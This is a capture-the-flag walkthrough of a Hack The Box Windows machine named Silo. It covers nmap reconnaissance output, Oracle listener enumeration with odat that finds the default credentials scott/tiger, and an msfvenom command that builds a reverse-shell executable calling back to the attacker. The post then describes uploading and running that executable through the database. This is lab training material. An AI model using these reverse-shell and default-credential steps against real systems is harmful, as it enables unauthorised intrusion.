


# Recon

I do my initial scan to see which ports are open.
## nmap
```
# Nmap 7.92 scan initiated Tue Aug  9 17:53:53 2022 as: nmap -p- -oA first/scan --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv silo.htb
Nmap scan report for silo.htb (10.129.95.188)
Host is up, received echo-reply ttl 127 (0.066s latency).
Scanned at 2022-08-09 17:53:53 CDT for 14s
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack ttl 127
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
1521/tcp  open  oracle       syn-ack ttl 127
5985/tcp  open  wsman        syn-ack ttl 127
47001/tcp open  winrm        syn-ack ttl 127
49152/tcp open  unknown      syn-ack ttl 127
49153/tcp open  unknown      syn-ack ttl 127
49154/tcp open  unknown      syn-ack ttl 127
49155/tcp open  unknown      syn-ack ttl 127
49159/tcp open  unknown      syn-ack ttl 127
49160/tcp open  unknown      syn-ack ttl 127
49161/tcp open  unknown      syn-ack ttl 127
49162/tcp open  unknown      syn-ack ttl 127
```

Then run `nmap` again with default scripts (`-sC`) and service discovery (`-sV`) on the ports that were found from the first scan. I ignore the ephemeral ports (47001 - 49162) as these are not common ports and are likely used as named pipes for RPC.

```
# Nmap 7.92 scan initiated Tue Aug  9 17:55:15 2022 as: nmap -oA main/scan -sV -sC --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p 80,135,139,445,1521,5985 silo.htb
Nmap scan report for silo.htb (10.129.95.188)
Host is up, received echo-reply ttl 127 (0.060s latency).
Scanned at 2022-08-09 17:55:15 CDT for 15s

PORT     STATE SERVICE      REASON          VERSION
80/tcp   open  http         syn-ack ttl 127 Microsoft IIS httpd 8.5
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
135/tcp  open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp open  oracle-tns   syn-ack ttl 127 Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-08-09T22:55:25
|_  start_date: 2022-08-09T22:49:21
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 51651/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 65151/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 53292/udp): CLEAN (Timeout)
|   Check 4 (port 16975/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 0s, deviation: 0s, median: -1s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug  9 17:55:30 2022 -- 1 IP address (1 host up) scanned in 15.84 seconds
```

I also ran a UDP scan, vuln scan and fuzzed for subdomains but didn't get anything too helpful, so it looks like we are working with the following services:

- port 80: Microsoft IIS httpd 8.5
- port 135: Microsoft Windows RPC
- port 139: Microsoft Windows netbios-ssn
- port 445: Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (SMB)
- port 1521: Oracle TNS listener 11.2.0.2.0 (unauthorized)

# Enumeration

## Website

There is a default IIS instalation page, so perhaps this could be a misconfigured server.


To save some typing/reading, there was nothing helpful from Nikto or Feroxbuster so I will enumerate port 1521 next.

## Oracle TNS listener 

Since I am unfamiliar with this service, I like to use book.hacktricks.xyz as a good resource for testing a particular service:
https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener

Half of the above page mentions a tool called odat. This can be found here:
https://github.com/quentinhardy/odat

It was a bit of a pain setting up odat and took me two tries to get it working. For my second installation attempt I followed Ipp's guide and had no problems:
https://www.youtube.com/watch?v=2c7SzNo9uoA

After I get it working, I then follow the official documentation and run `./odat.py all -s 10.129.95.188 -p 1521`. This runs for a while and eventually returns default creds `scott/tiger` for SID XE and SID XEXDB.




Armed with a valid SID and set of credentials, we can then create a reverse shell to upload to the db. I'll use msvenom as so:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > rshell.exe`

Followed by returning to odat and using utlfile to upload the file.



From there we can execute our uploaded reverse shell with externaltable like so: 


For some reason my meterpreter session kept dying. I tried using a regular nc listener to catch the shell which worked as a workaround.


Collect our loot and move on to the next box! :)


